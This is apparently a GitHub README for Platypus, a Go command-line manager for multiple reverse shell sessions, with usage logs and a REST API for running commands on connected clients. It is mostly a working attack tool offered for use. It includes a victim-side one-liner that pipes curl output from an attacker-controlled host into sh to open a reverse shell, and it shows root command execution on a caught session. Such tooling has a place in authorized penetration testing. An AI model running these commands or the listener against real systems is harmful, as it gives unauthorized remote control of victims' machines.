 # Platypus

A modern multiple reverse shell sessions/clients manager via terminal written in go

#### Features
- [x] Multiple service listening port
- [x] Multiple client connections
- [x] RESTful API
- [x] Reverse shell as a service
- [ ] Upgrade common reverse shell session into full interactive session

#### Use Platypus from source code
```
go get github.com/WangYihang/Platypus
cd go/src/github.com/WangYihang/Platypus
go run platypus.go
```

#### Use Platypus from release binaries
```
# Download binary from https://github.com/WangYihang/Platypus/releases
root@kali:~# chmod +x ./Platypus_linux_amd64
root@kali:~# ./Platypus_linux_amd64
>> Help
Usage: 
	Help [COMMANDS]
Commands: 
Command
	execute a command on the current session
DataDispatcher
	DataDispatcher command on all clients which are interactive
Exit
	Exit the whole process
	If there is any listening server, it will ask you to stop them or not
Info
	Display the infomation of a node, using the hash of the node
Interact
	Pop up a interactive session, you can communicate with it via stdin/stdout
Jump
	Jump to a node, waiting to interactive with it
List
	Try list all listening servers and connected clients
REST
	Start a RESTful HTTP Server to manager all clients
Run
	Try to run a server, listening on a port, waiting for client to connect
Switching
	Switch the interactive field of a node, allows you to interactive with it
	If the current status is ON, it will turns to OFF. If OFF, turns ON
>> Run 0.0.0.0 8080
>> 2018/10/24 14:36:39 Server running at: [b62899ae4eb021ae6faa100b0d6f2ae8] 0.0.0.0:8080 (0 online clients) (started at: now)
>> 2018/10/24 14:37:05 New client [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: now) [false] Connected
>> List
2018/10/24 14:37:11 Listing 1 servers
[b62899ae4eb021ae6faa100b0d6f2ae8] 0.0.0.0:8080 (1 online clients) (started at: 31 seconds ago)
	[d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 6 seconds ago) [false]
>> Jump d
2018/10/24 14:37:12 The current interactive shell is set to: [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 7 seconds ago) [false]
>> Interact
2018/10/24 14:37:14 Interacting with [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 9 seconds ago) [false]
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
exit
>> REST 127.0.0.1 9090
2018/10/24 14:37:27 RESTful HTTP Server running at 127.0.0.1:9090
```

#### Reverse shell as a Service
```bash
# victim will be redirected to attacker-host attacker-port
sh -c "$(curl http://host:port/attacker-host/attacker-port)"
# if the attacker info not specified, it will use host, port as attacker-host attacker-port
sh -c "$(curl http://host:port/)"
```

#### RESTful API
* `GET /client` List all online clients
```
# curl 'http://127.0.0.1:9090/client'
{
    "msg": [
        "127.0.0.1:54798"
    ],
    "status": true
}
```
* `POST /client/:hash` execute a command on a specific client
```
# curl -X POST 'http://127.0.0.1:9090/client/d14a421389af9436d7d4181774077dab' --data 'cmd=whoami'
{
    "status": true,
    "msg": "root\n",
}
```
* How to hash?
```
# echo -n "127.0.0.1:54798" | md5sum
d14a421389af9436d7d4181774077dab
```

#### TODO
- [ ] More interfaces in RESTful API
- [ ] RESTful API should auth
